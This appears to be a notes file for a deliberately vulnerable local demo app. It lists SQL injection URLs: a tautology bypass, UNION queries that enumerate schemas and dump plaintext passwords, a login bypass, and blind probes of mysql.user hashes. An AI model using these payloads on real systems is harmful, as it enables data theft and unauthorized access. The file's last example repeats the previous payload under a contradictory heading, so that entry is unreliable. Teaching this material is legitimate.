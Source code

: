 # 1) Intended usage
http://127.0.0.1:8080/filterUserUnSafe?name=Frodo


# 2) Login functionality
http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret


# Dangerous part
## Simple SQLi
http://localhost:8080/filterUserJdbcUnSafe?name=Bilbo'or'1'='1


## Union based SQLi to get table_schema,table_name FROM information_Schema.tables
http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo'union all select 1, concat(table_schema,'-----', table_name), table_name, 'STAFF'   from information_Schema.tables where '1'='1

## Union based SQLi to get data from any table
http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(review, '-----',rating), review, 'STAFF'  from management.employee_review where '1'='1


## Union based SQLi to get plain passwords
http://localhost:8080/filterUserGlobalAccessUnSafe?name=Bilbo' union all select 1, concat(name,'-----',password), password, 'STAFF'   from employees.employee where '1'='1

## SQLi to login with bypassing user and password
http://localhost:8080/loginJdbcUnSafe?name=1&password=1' or 1=1 and id='1

## Blind injections
### Blind SQLi to get chars from mysql.user
The first char is $ - query succeeds
http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or '

### The first char is not 1 - query fails
http://localhost:8080/loginJdbcUnSafe?name=Bilbo&password=secret' and (select CASE WHEN (substring(authentication_string,1,1) = '$' ) THEN true ELSE false END from  mysql.user where User = 'empdb_user') or '
